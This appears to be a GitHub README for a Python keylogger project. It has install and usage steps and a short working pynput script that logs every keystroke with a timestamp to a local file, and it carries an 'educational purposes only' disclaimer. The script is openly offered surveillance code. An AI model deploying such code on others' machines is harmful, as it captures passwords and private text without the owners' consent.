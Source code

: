 # Software-Keylogger


Keylogger with Timestamp 🛡️

Overview  
This project is a Python-based **Keylogger** that records keystrokes and timestamps them. It is designed for educational purposes and showcases how to monitor and log keyboard activity efficiently.  

Features  
- Logs every keystroke with precise **timestamps**.  
- Saves logs in a structured file for easy analysis.  
- Lightweight and easy to integrate into different systems.  

Prerequisites  
- Python 3.x  
- Libraries:  
  - `pynput` (for listening to keyboard events)  
  - `datetime` (for timestamping the logs)  

Install the required libraries:  
```bash
pip install pynput
```

How It Works  
1. The program listens to keyboard inputs using the `pynput` library.  
2. Each keystroke is logged along with its timestamp using Python's `datetime` module.  
3. The logs are saved in a text file (`keylogs.txt`).  

Usage  
1. Clone this repository:  
   ```bash
   git clone <repository-url>
   cd keylogger-with-timestamp
   ```
2. Run the script:  
   ```bash
   python keylogger.py
   ```
3. View the recorded logs in the `keylogs.txt` file.  

Code Example  
Here’s a snippet of the keylogging functionality:  
```python
from pynput import keyboard
from datetime import datetime

def on_press(key):
    with open("keylogs.txt", "a") as file:
        file.write(f"{datetime.now()}: {key}\n")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

Disclaimer  
This tool is for **educational purposes only**. Unauthorized use may violate privacy laws. Use responsibly!  

License  
This project is licensed under the MIT License.  

